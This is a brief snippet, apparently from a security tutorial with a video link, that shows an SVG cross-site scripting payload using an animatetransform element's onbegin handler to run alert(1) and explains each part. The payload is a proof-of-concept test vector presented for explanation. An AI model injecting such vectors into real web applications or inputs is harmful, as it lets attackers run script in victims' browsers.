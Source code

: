 https://www.youtube.com/watch?v=7dKk4A6viWo

```html
<svg>
<animatetransform onbegin=alert(1) attributeName=transform>
</svg>
```
### Explanation:
- `<svg>`: The SVG container.
- `<animatetransform>`: An SVG element that allows for animations on transformations like `rotate`, `scale`, etc.
- `onbegin=alert(1)`: This triggers a JavaScript `alert(1)` when the animation begins.
- `attributeName=transform`: Specifies the attribute to animate.
